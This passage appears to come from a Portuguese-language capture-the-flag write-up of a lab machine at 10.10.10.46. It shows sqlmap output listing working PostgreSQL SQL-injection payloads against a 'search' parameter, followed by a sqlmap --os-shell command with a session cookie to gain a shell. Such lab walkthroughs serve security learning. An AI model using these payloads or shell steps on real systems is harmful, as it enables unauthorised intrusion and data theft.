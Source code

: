 ```bash
[21:46:50] [WARNING] time-based comparison requires larger statistical model, please wait....... (done)                                                                                                                                     
[21:47:02] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
[21:47:02] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[21:47:13] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable 
[21:47:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=hastur' AND (SELECT (CASE WHEN (7267=7267) THEN NULL ELSE CAST((CHR(110)||CHR(79)||CHR(104)||CHR(68)) AS NUMERIC) END)) IS NULL-- CbRO

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=hastur' AND 5008=CAST((CHR(113)||CHR(112)||CHR(107)||CHR(107)||CHR(113))||(SELECT (CASE WHEN (5008=5008) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(107)||CHR(118)||CHR(118)||CHR(113)) AS NUMERIC)-- MjRn

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=hastur';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=hastur' AND 1622=(SELECT 1622 FROM PG_SLEEP(5))-- kNKY
---
[21:47:16] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 19.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[21:47:18] [INFO] fetched data logged to text files under '/home/hastur/.local/share/sqlmap/output/10.10.10.46'

[*] ending @ 21:47:18 /2021-09-06/
```
Ótimo, encontramos uma vulnerabilidade!!

Podemos tentar um reverse shell com o próprio sqlmap, inserindo o parâmetro `--os-shell` na mesma requisição que fizemos.

```bash
┌──(hastur㉿hastur)-[~/Vaccine]
└─$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=hastur' --cookie='PHPSESSID=u8mds2v44ve1kglnmg8s6l90d6' --os-shell
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.8#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:49:32 /2021-09-06/

[21:49:32] [INFO] resuming back-end DBMS 'postgresql' 
```